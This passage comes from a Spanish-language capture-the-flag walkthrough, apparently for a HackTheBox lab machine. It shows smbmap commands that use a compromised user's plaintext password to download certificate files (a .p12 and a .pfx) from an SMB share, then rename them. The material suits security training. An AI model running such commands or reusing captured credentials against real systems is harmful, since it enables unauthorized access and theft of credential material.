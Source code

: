 <figure><img src="../../../.gitbook/assets/2584_vmware_Inqq7VjV2L.png" alt=""><figcaption></figcaption></figure>

Procederemos a descargar estos dos archivos a través de **smbmap** y a renombrarlos.

{% code overflow="wrap" %}
```bash
smbmap -H 10.10.11.129 --no-banner -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' --download 'RedirectedFolders$/Sierra.Frye/Downloads/Backups/search-RESEARCH-CA.p12'

smbmap -H 10.10.11.129 --no-banner -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' --download 'RedirectedFolders$/Sierra.Frye/Downloads/Backups/staff.pfx'

mv 10.10.11.129-RedirectedFolders_Sierra.Frye_Downloads_Backups_search-RESEARCH-CA.p12 search-RESEARCH-CA.p12

mv 10.10.11.129-RedirectedFolders_Sierra.Frye_Downloads_Backups_staff.pfx staff.pfx
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2585_vmware_h1XNxJTQyk.png" alt=""><figcaption></figcaption></figure>
